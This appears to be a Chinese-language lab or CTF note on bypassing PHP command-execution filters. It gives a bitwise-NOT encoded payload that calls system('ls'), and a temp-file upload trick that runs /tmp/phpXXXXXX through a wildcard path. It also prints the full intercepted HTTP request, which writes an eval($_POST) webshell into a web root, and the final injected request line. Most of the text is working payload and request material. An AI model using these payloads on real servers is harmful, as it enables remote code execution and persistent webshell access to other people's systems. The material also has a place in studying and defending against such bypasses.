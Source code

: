 `?cmd=(~"%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c")(~"%8c%86%8c%8b%9a%92",~"%93%8c",'');`

相当于注入

`(call_user_func)(system,ls,'');`



### (PHP5)

文件读取:

PHP中POST上传文件会把我们上传的文件暂存在**/tmp**目录下,

默认文件名是**phpXXXXXX**,文件名最后六个字符是随机的大小写字母

使用通配符

`./???/?????????`         可以匹配到./tmp/phpXXXXXX

​                                           匹配东西太多,通常会报错

`./???/????????[@-[]`          [@-[]表示ascii在@和[之间的字符,也就是大写字母,保障最后一位为大写字母



具体步骤:

1.构造一个文件上传的POST数据包

2.PHP页面生成临时文件phpXXXXXX,存储在/tmp目录下

3.执行指令`./???/????????[@-[]`,读取文件,执行其中命令

使用burp suite拦截带post数据包之后,

把HOST以下的内容改成

**以下**             

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 188


----------123
Content-Disposition:form-data;name="file";filename="1.txt"

echo "<?php eval(\$_POST['shell']);" > /www/admin/localhost_80/wwwroot/class11/success.php
----------123--



注意:上述一句话木马有一个\,如果没有\无法正常运行(不知道为啥)



再修改第一行POST请求

POST /class11/3.php?cmd=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1